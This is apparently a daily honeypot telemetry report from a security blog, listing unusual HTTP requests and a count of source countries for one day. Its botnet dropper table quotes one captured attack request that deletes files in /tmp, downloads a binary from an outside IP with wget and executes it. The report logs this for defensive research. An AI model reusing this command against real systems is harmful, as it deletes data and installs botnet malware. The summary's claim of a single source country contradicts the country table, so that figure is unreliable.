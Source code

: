 ```yaml
---
title: "Report: 2025-05-09 "
date: 2025-05-09
desciption: "Report: 2025-05-09" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-09 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 8 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1051 requests were recorded during the day, originating from 1 different countries, with a peak of 266 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr   | request                                                                      |
|:--------------|:-----------------------------------------------------------------------------|
| 117.72.77.99  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                          |
|----:|----------------------:|:-------------------------------------------------|
|   9 |                     6 | GET /webui/login/redirect.js HTTP/1.1            |
|  41 |                     3 | GET /op/9_md/9/9/9/9/9 HTTP/1.1                  |
|  46 |                     3 | GET /2cXaAxRGfddmGz2yx1wA/api/utils/env HTTP/1.1 |
| 233 |                     1 | GET /.e%f1v HTTP/1.1                             |
| 350 |                     1 | GET /Yt9V HTTP/1.1                               |
| 351 |                     1 | GET /sLYE HTTP/1.1                               |
| 355 |                     1 | GET http://icanhazip.com HTTP/1.1                |
| 356 |                     1 | \x04\x01\x00Ph\x10\xB8\xF1\x00                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   266 | US                 |
|  1 |                   190 | NL                 |
|  2 |                   180 | DE                 |
|  3 |                    90 | GB                 |
|  4 |                    38 | UA                 |
|  5 |                    38 | PL                 |
|  6 |                    32 | RU                 |
|  7 |                    24 | SC                 |
|  8 |                    24 | JP                 |
|  9 |                    22 | CN                 |
| 10 |                    20 | KR                 |
| 11 |                    20 | IN                 |
| 12 |                    17 | CA                 |
| 13 |                    14 | LT                 |
| 14 |                     9 | SG                 |
| 15 |                     7 | BG                 |
| 16 |                     6 | VN                 |
| 17 |                     6 | AZ                 |
| 18 |                     5 | AO                 |
| 19 |                     5 | BR                 |
| 20 |                     5 | PT                 |
| 21 |                     4 | TH                 |
| 22 |                     3 | IL                 |
| 23 |                     3 | HK                 |
| 24 |                     3 | BE                 |
| 25 |                     3 | RO                 |
| 26 |                     2 | IT                 |
| 27 |                     2 | HN                 |
| 28 |                     2 | CZ                 |
| 29 |                     2 | FR                 |
| 30 |                     2 | VE                 |
| 31 |                     1 | TZ                 |
| 32 |                     1 | ES                 |
| 33 |                     1 | MT                 |
| 34 |                     1 | TR                 |
| 35 |                     1 | IR                 |
| 36 |                     1 | AR                 |
| 37 |                     1 | SE                 |
